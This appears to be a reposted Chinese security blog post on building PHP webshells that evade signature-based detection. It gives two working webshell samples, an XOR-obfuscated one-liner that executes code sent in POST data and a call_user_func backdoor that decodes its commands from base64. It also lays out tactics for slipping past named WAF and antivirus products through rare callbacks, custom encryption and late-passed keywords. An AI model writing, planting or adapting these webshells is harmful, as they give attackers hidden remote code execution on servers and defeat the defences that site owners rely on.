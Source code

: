 对于无特征马这里我的意思是 无字符特征

1.  利用异或, 编码等方式 例如 p 神博客的

```
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); 
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); 
$___=$$__;
$_($___[_]); 

```

1.  利用正则匹配字符 如 Tab 等 然后转换为字符
2.  利用 POST 包获取关键参数执行 例如

```
<?php
$decrpt = $_POST['x'];
$arrs = explode("|", $decrpt)[1];
$arrs = explode("|", base64_decode($arrs));
call_user_func($arrs[0],$arrs[1]);
?>

```

在 php7.1 后面我们已经不能使用强大的 assert 函数了用 eval 将更加注重特殊的调用方法和一些字符干扰, 后期大家可能更加倾向使用大马

对于安全狗杀形，d 盾杀参的思路来绕过。生僻的回调函数, 特殊的加密方式, 以及关键词的后传入都是不错的选择。 对于关键词的后传入对免杀安全狗，d 盾，河马 等等都是不错的，后期对于菜刀的轮子，也要走向高度的自定义化 用户可以对传出的 post 数据进行自定义脚本加密，再由 webshell 进行解密获取参数，那么以现在的软 waf 查杀能力几乎为 0，安全软件也需要与时俱进了。

本文分享自微信公众号 - 白安全组（bai-1152770445），作者：白安全组

原文出处及转载信息见文内详细说明，如有侵权，请联系 yunjia_community@tencent.com 删除。

原始发表时间：2019-07-04

本文参与[腾讯云自媒体分享计划](https://cloud.tencent.com/developer/support-plan)，欢迎正在阅读的你也加入，一起分享。